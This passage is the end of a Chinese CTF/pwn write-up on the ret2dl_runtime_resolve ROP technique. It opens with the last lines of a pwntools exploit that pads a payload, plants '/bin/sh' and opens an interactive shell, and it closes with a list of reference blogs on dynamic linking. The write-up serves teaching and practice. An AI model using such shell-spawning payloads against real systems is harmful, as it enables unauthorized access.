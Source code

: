 ```python
payload2+=(80-len(payload2))*'a'#因为上面提到了会把参数放在偏移80的位置，因此这里填充\x00到偏移80这里
payload2+='/bin/sh\x00'
payload2+=(100-len(payload2))*'a'
p.send(payload2)
#gdb.attach(p)
p.interactive()
```



###其他博客链接

最后由于参考了很多师傅的博客，这里面我把一些我感觉写的不错的博客放一下，如果对于我上面写的有不懂的也可以看看下面这些博客

下面这两个博客都把exp分开构造的过程详细写了。

[深入理解-dl_runtime_resolve-博客 (soolco.com)](http://www.soolco.com/post/114840_1_1.html)

[高级ROP ret2dl_runtime 之通杀详解 - 先知社区 (aliyun.com)](https://xz.aliyun.com/t/5122#toc-4)

然后我探究上述\_dl_runtime_solve执行流程主要是跟着下面这个师傅的博客做的

[_dl_runtime_resolve - 简书 (jianshu.com)](https://www.jianshu.com/p/57f6474fe4c6)

下面这个是介绍\_dl_runtime_solve的前置知识很详细

[深入窥探动态链接 - 知乎 (zhihu.com)](https://zhuanlan.zhihu.com/p/134105591)

下面这个博客是对一些源码做了注释

[(25条消息) glibc动态链接器dl_runtime_resolve简要分析_Hello World.c-CSDN博客](https://blog.csdn.net/jazrynwong/article/details/89851640)

下面两个主要是解释了下用到的一些段的解释

https://www.jianshu.com/p/8dd91ec35dda

https://www.thinbug.com/q/53156275

然后这个师傅的exp写的比较清晰，解决了我的一些问题

https://eqqie.cn/index.php/archives/1023

然后下面这个师傅写的应该是最详细的了，对一些小细节有疑问的可以在这上面找找

[https://sp4n9x.github.io/2020/08/15/ret2_dl_runtime_resolve%E8%AF%A6%E8%A7%A3/#3-2-2%E3%80%81-dl-fixup-%E7%9A%84%E5%86%85%E5%AE%B9](https://sp4n9x.github.io/2020/08/15/ret2_dl_runtime_resolve详解/#3-2-2、-dl-fixup-的内容)
